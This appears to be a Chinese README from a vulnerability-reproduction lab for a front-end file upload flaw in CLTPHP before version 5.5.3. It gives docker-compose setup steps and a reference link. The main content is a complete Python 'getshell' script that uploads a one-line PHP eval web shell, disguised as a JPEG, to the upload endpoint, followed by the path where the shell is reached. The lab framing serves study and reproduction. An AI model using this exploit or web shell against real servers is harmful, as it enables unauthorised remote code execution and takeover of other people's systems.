

## 环境构建
```
docker-compose build 
docker-compose up -d
```


## 漏洞介绍
cltphp是一个利用thinkphp开发的业务系统，该业务系统在5.5.3之前存在一个上传漏洞，可以通过前台getshell


getshell payload
```
import requests  

import sys  


def CLPHP_upload(url):  

    header = { 'User-Agent' : 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)' ,  

                'X-Requested-With': 'XMLHttpRequest',}   

    geturl = url+"/user/upFiles/upload"  

    files ={'file':('1.php','<?php eval($_POST["pass"]) ?>','image/jpeg')}  

    res = requests.post(geturl, files=files,headers=header)  

    print(res.text)

  

if __name__ == "__main__":  

    if len(sys.argv) == 2:  

        url=sys.argv[1]  

        CLPHP_upload(url)  

        sys.exit(0)  

    else:  

        print ("usage: %s www.xxx.com" % sys.argv[0])  

        sys.exit(-1)    
```

然后访问
http://127.0.0.1:8002/public/uploads/20180624/c7518cc3e814ff4e6e2adf078ebd4a44.php


## 漏洞连接
[链接一](https://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=301419949&idx=1&sn=0a4ab4f3c69e22aba6a69a09bcbfe009&chksm=0b55ddf03c2254e6982bd0b8fca4b410462781b3435acf837ba622888aa1cd62631736f3660c&mpshare=1&scene=23&srcid=0318lckYIwNLZKInw7H18N4w#rd)

